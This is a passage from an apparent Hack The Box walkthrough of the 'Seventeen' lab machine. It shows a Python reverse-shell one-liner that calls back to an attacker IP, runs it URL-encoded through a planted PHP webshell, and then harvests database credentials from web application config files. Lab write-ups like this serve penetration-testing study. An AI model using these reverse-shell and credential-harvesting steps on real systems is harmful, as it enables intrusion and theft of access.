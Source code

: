 we see python is in the container
http://mastermailer.seventeen.htb:8000/oldmanagement/files/31234/simple.php?gg=which%20python

so we will try a python reverse shell
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.73",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
we url encode and execute via our webshell
http://mastermailer.seventeen.htb:8000/oldmanagement/files/31234/simple.php?gg=python%20%2Dc%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%2210%2E10%2E14%2E73%22%2C443%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C1%29%3Bos%2Edup2%28s%2Efileno%28%29%2C2%29%3Bimport%20pty%3B%20pty%2Espawn%28%22sh%22%29%27

this one connects back and gives us a shell

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529184017.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529184017.png){:.glightbox}

## User
We begin with just some basic manual enumeration. Let's look through the config files of all available web applications to see if we can find any further credentials.

in `/var/www/html/employeemanagementsystem/process/dbh.php` we find our first credentials

```php
<?php

$servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";

...SNIP
```

the next in `/var/www/html/mastermailer/config/config.inc.php`
```php
...SNIP

$config['db_dsnw'] = 'mysql://mysqluser:mysqlpassword@127.0.0.1/roundcubedb';

...SNIP
```

mysqluser:mysqlpassword
